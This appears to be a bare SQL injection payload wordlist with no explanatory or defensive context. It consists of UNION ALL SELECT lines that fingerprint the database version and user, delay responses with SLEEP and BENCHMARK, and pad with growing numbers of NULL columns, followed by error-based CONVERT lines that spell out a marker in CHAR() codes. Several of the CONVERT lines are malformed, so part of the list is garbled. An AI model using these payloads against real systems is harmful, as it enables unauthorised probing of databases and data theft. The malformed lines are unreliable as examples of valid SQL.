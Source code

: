      UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT NULL-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
     UNION ALL SELECT NULL#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#